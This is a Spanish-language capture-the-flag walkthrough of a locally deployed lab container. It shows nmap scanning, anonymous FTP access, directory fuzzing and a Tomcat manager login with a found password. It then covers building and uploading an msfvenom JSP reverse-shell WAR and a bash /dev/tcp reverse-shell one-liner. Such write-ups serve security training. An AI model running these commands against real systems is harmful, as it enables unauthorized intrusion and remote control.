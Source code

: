 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh pn.tar
```

![Pasted image 20250203124154](https://github.com/user-attachments/assets/5c2ff673-c307-4b2b-999f-7304362f0199)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203124223](https://github.com/user-attachments/assets/da475089-bcdd-438e-913c-488a8a3bb0a5)

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250203124312](https://github.com/user-attachments/assets/ee8f0666-58ff-4578-80c7-036557fcf5c2)

```Bash
anonymous
```

![Pasted image 20250203124328](https://github.com/user-attachments/assets/92527238-17ca-494b-951c-ef3c8af0a9d5)

```Bash
'blank'
```

![Pasted image 20250203124340](https://github.com/user-attachments/assets/a4100623-3c73-4303-a895-fb0a204b11a1)

```Bash
ls
```

![Pasted image 20250203124409](https://github.com/user-attachments/assets/e16a42b2-9c7c-4258-8c1e-3f6e9a751557)

```Bash
get tomcat.txt
```

![Pasted image 20250203124434](https://github.com/user-attachments/assets/7cc3f2ad-beca-4453-89b6-5bebb273f8e4)

```Bash
cat tomcat.txt
```

![Pasted image 20250203124645](https://github.com/user-attachments/assets/07ac7123-592e-4c5b-a422-e27214918a87)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250204152455](https://github.com/user-attachments/assets/13ed0ee4-214a-48fc-9753-a3bf67bf1571)

Nos metemos en la web:



![[Pasted image 20250203125031.png]]


![[Pasted image 20250203124932.png]]



tomcat: s3cr3t

![[Pasted image 20250203125055.png]]

![[Pasted image 20250204144739.png]]

Creamos payload para subir:

```Bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o shell.war
```

![[Pasted image 20250204151401.png]]

Lo subimos:

![[Pasted image 20250204150907.png]]

![[Pasted image 20250204150933.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250204151015.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250204152406.png]]

Pinchamos en la shell subida:

![[Pasted image 20250204152912.png]]

Miramos en la shell:

![[Pasted image 20250204152129.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250204152103.png]]

Miramos la otra shell:

![[Pasted image 20250204152256.png]]

```Bash
whoami
```

![[Pasted image 20250204152315.png]]
